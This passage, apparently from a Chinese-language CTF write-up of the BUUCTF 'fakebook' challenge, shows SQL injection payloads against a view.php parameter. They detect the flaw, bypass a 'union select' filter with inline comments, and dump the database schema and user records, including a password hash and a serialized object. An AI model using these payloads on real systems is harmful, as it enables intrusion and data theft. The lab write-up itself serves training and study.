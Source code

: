 测试一下`view.php`的`no`参数是否存在注入

```
view.php?no=1' or '1'='1'#
```

出现报错,说明存在注入漏洞, 下面尝试一下`union`,存在关键词过滤

```
view.php?no=3 union select 1,2,3,4#
```

<img src="/images/buuctf-web/image-20221018122717667-166704781973586.png" alt="image-20221018122717667" style="zoom:67%;" />

经过测试,这里单独输入`1,`,`1union`,`1select`,等都会直接报错,而不会报`hack`,那么过滤关键词可能是`union select`,那么只要使用`/**/`来绕过空格就好了:

```
no=3 union/**/select 1,2,3,4#
```

可以看到这里爆了反序列化的错误:

<img src="/images/buuctf-web/image-20221018123424162-166704781973587.png" alt="image-20221018123424162" style="zoom: 80%;" />

这里先尝试用`2`这个位置继续注入看看,多获得一些信息:

```
no=3 union/**/select 1,database(),3,4#
---库名: fakebook
no=3 union/**/select 1,group_concat(TABLE_NAME),3,4 from information_schema.TABLES where table_schema='fakebook'#
---表名: users
no=3 union/**/select 1,group_concat(COLUMN_NAME),3,4 from information_schema.COLUMNS where table_schema='fakebook' and table_name='users'#
---列名: no,username,passwd,data
no=3 union/**/select 1,group_concat(no,',',username,',',passwd,',',data),3,4 from users#

输出:
1,  //id
abc,  //username
cf83e1357eefb8bdf1542850d66d8007d620e4050b5715dc83f4a921d36ce9ce47d0d13c5d85f2b0ff8318d2877eec2f63b931bd47417a81a538327af927da3e, 
O:8:"UserInfo":3:{s:4:"name";s:3:"abc";s:3:"age";i:1234;s:4:"blog";s:13:"www.baidu.com";}
```